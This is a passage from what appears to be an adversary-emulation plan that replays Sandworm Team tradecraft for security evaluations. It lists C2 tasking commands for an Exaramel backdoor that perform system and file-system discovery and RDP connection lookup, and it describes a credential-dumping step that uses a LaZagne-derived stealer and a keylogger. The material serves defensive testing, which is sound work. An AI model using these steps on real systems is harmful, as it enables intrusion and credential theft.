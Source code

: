 ```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

./evalsC2client.py --set-task Exaramel-Windows "get-sysinfo"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L46)

List entire file system.

```bash
# Sandworm Team has enumerated files on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "enum-files C:\\"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L55)

Look for RDP connections.

```bash
# Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd netstat -ano | findstr 3389"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

#### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

* <https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/>

* <https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>

<br>

### Step 17 - Credential Dumping

:microphone: `voice track`

During this step, Sandworm collects credentials.

Sandworm first uploads two files to disk:

```
1. C:\Windows\System32\oradump.exe
2. C:\Windows\System32\mslog.exe
```

oradump.exe is a variant of the open source tool, LaZagne. It has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.

mslog.exe is a keylogger that uses the SetWindowsHookEx function; mslog.exe writes a keystroke log file to C:\Windows\System32\mslog.txt.

Sandworm obtains web browser credentials via oradump.exe.
